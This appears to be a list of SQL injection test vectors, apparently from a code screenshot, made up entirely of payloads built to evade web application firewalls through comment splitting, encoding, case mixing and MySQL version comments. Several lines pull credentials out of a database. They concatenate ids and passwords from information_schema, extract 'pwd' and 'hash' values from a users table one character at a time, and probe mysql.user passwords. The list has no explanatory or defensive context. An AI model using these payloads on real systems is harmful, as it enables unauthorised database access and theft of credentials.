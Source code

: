 测试向量

```
%55nion(%53elect 1,2,3)-- -

+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinctROW+select+
-15+(uNioN)+(sElECt)
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
id=1+UNIunionON+SELselectECT 1,2,3—
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
id=1 and (select 1)=(Select 0xAA 1000 more A’s)+UnIoN+SeLeCT 1,2,3—
id=1+un/**/ion+sel/**/ect+1,2,3--
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x

/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
/*!union*/+/*!select*/+1,2,3—
/*!UnIOn*//*!SeLect*/+1,2,3—
un/**/ion+sel/**/ect+1,2,3—
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--

?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/

id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--

SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way

select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
```